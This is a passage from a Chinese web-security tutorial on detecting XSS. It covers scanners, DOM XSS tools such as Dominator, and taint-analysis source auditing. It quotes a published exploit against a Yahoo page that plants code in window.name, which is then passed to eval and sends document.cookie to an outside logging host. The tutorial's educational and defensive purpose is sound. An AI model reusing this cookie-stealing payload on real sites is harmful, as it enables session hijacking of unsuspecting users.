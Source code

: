<pre class="lang-java" data-nodeid="32211"><code data-language="java">python start.py --url=<span class="hljs-string">"http://localhost/vulnerabilities/XSS_r/?name=a"</span>
</code></pre>
<p data-nodeid="32212"><img src="https://s0.lgstatic.com/i/image/M00/8B/C1/Ciqc1F_gO-SAWQl0AAbouv6er5w361.png" alt="Drawing 8.png" data-nodeid="32392"></p>
<div data-nodeid="32213"><p style="text-align:center">图 9：NoXSS</p></div>
<p data-nodeid="32214">DOM XSS 的扫描相比常规 XSS 要难一些，主要是针对 JS 代码的分析，如果只是简单的正则匹配，就很容易误报漏报。所以针对 DOM XSS 的检测，除了常规的 XSS payload 暴力测试、正则匹配检测代码外，还可以基于以下几种常见方法来检测 XSS。</p>
<ul data-nodeid="32215">
<li data-nodeid="32216">
<p data-nodeid="32217">Headless Chrome：利用无界面 Chrome 浏览器来检测 XSS，参考《<a href="https://paper.seebug.org/641/" data-nodeid="32397">基于 Chrome-headless 的 XSS 检测</a>》，这是目前主流的动态检测方法。</p>
</li>
<li data-nodeid="32218">
<p data-nodeid="32219">QtWebKit：参考《<a href="https://security.tencent.com/index.php/blog/msg/12" data-nodeid="32402">基于 QtWebKit 的 DOM XSS 检测技术</a>》，QtWebKit 作者已停止维护。</p>
</li>
<li data-nodeid="32220">
<p data-nodeid="32221">PhantomJS：已停止维护。它提供一套基于 WebKit 的服务器端 JavaScript API，可以在无浏览器支持的情况下实现 Web 浏览器功能的支持，例如 DOM 处理、JavaScript、CSS 选择器、JSON、Canvas 和可缩放矢量图形 SVG 等功能。</p>
</li>
</ul>
<p data-nodeid="32222">这些方法可以实现动态解析 JS，以验证特意构造的 XSS payload 是否被执行，从而准确地判断是否存在 XSS 漏洞。</p>
<p data-nodeid="32223">这种动态检测 DOM XSS 的工具，个人特别推荐 Dominator。它是基于 Firefox 改造的，在一些关键的输入输出函数添加 Hook，如果发现有用户可控数据输出到一些 sink 漏洞触发函数上就会告警。它的特点是发现率高，虽然也有不少误报。此前我用它发现了不少国内知名网站的 DOM XSS，有些不同域名的网站引用到同一个漏洞 JS 文件，导致一个漏洞影响一大批网站。</p>
<p data-nodeid="32224">以之前一些 Yahoo DOM XSS 为例，当你用 Dominator 访问了存在漏洞的页面后，可以看到其输出的告警内容如下：</p>
<p data-nodeid="32225"><img src="https://s0.lgstatic.com/i/image/M00/8B/CC/CgqCHl_gO_CARQ8zAARc2hmr8mY249.png" alt="Drawing 9.png" data-nodeid="32410"></p>
<div data-nodeid="32226"><p style="text-align:center">图 10：用 Dominator 检测 DOM XSS</p></div>
<p data-nodeid="32227">提示 windows.name 输入数据被直接传递给 eval 函数，也就是说如果你能控制 windows.name 的值，就可以实现任意 JS 代码的执行。利用起来也非常简单，我们可以看下漏洞发现者 Abysssec 公司发布的利用代码：</p>
<pre class="lang-javascript" data-nodeid="32228"><code data-language="javascript">&lt;html&gt;
<span class="xml"><span class="hljs-tag">&lt;<span class="hljs-name">script</span>&gt;</span>
window.name=' new Image().src="http://abysssec.com/log/log.php?cookie="+encodeURI(document.cookie);
setTimeout(\"location.href = \'http:\/\/www.yahoo.com\';\",10);';
location.href="http://adspecs.yahoo.com/index.php";
<span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span></span>
&lt;/html&gt;
</code></pre>
<p data-nodeid="32229">利用思路就是直接设置 window.name 参数，插入打算执行的 JS 代码，然后用 location.href 跳转到漏洞页面去触发。这类漏洞我在网易的一些网站上也发现了不少，也是用 Dominator 挖掘到的，所以个人比较推荐。</p>
<h4 data-nodeid="32230">白盒测试</h4>
<p data-nodeid="32231">如果我们有网站源码，就可以直接通过分析源码来挖掘漏洞。网站开发语言非常多， JavaScript、PHP、Python、Go、C/C++等等都可以用来开发网站的前端和后端。不同的语言有不同的特性，在源码审计时需要采取不同的检测点，但有一个共同的思路，那就是<strong data-nodeid="32419">污点分析的检测思路</strong>。</p>
<p data-nodeid="32232">前面我已经简单地提到污点分析原理就是检测用户可控的输入数据，污点也就是用户可控的输入数据。然后我们去追踪污点的传播过程，检测是否传递给危险的输出函数。对于 XSS 就是能够控制页面内容或者执行 JS 的输出函数有 echo、eval等。</p>
<p data-nodeid="32233">有时我们也会反着来：先查看一些危险的输出函数，再回溯它的参数传递，判断是否有未经过滤的用户输入数据，若有就代表可能存在漏洞。其他漏洞类型，以及其他编程语言的代码审计方式都是相通的，只是有不同的 sinks 和过滤函数需要作为检测点。</p>
<p data-nodeid="32234"><img src="https://s0.lgstatic.com/i/image/M00/8C/36/Ciqc1F_pfG2AJevWAAGvhSxGKxk804.png" alt="图片11.png" data-nodeid="32424"></p>
<div data-nodeid="32235"><p style="text-align:center">图 11：污点分析流程</p></div>
<p data-nodeid="32236">以 PHP 源码审计为例，常见的污点 source 有以下这些：</p>
<p data-nodeid="32237"><img src="https://s0.lgstatic.com/i/image/M00/8C/36/Ciqc1F_pfHaAfNXbAADXUYehbs4744.png" alt="图片14.png" data-nodeid="32428"></p>
<p data-nodeid="32238">关于 XSS 常见的污点触发位置 sink 有以下这些：</p>
<p data-nodeid="32239"><img src="https://s0.lgstatic.com/i/image/M00/8C/41/CgqCHl_pfH-AN_QGAAE9xCbnNNc546.png" alt="图片15.png" data-nodeid="32432"></p>
<p data-nodeid="32240">我在审计代码时，习惯使用 VSCode 和 Sublime，你可以根据自己的喜好选择一款合适的代码阅读软件，然后批量搜索文件中的 sink 位置，再往上回溯追踪是否有引入 source 污染数据；若引入了，有没有做好过滤转义等安全工作。</p>
<p data-nodeid="32241">关于 DOM XSS 的审计，主要是针对 JS 代码的审计，关于它的 srouces &amp; sinks，我已在《<strong data-nodeid="32441">04｜XSS：劫持身份的惯犯</strong>》的图 14 中给出，此处不再赘述；你也可以按照污点分析的思路去做 JS 代码审计。</p>
<p data-nodeid="32242">主流的自动化源码审计工具有 RIPS、Coverity、CheckMarx 等等，都是一些商业软件。近两年也有一些优秀的开源项目贡献，比如 <a href="https://github.com/LoRexxar/Kunlun-M" data-nodeid="32445">Kunlun-M</a>，目前作者仍在更新维护中。如果你或者你所在的公司没有条件采购商业软件，这也是一个不错的选择。</p>
